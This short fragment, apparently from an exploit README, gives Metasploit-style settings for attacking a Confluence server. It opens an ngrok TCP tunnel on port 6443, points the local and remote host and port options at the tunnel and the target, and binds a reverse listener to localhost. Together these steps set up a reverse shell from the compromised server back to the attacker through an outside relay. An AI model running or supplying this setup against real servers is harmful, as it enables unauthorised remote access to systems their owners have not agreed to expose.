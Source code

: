ngrok tcp 6443

set LHOST # ngrok addr

set LPORT # ngrok port

set RHOST # confluence host addr

set RPORT # confluence host port

set ReverseListenerBindAddress 127.0.0.1

set ReverseListenerBindPort 6443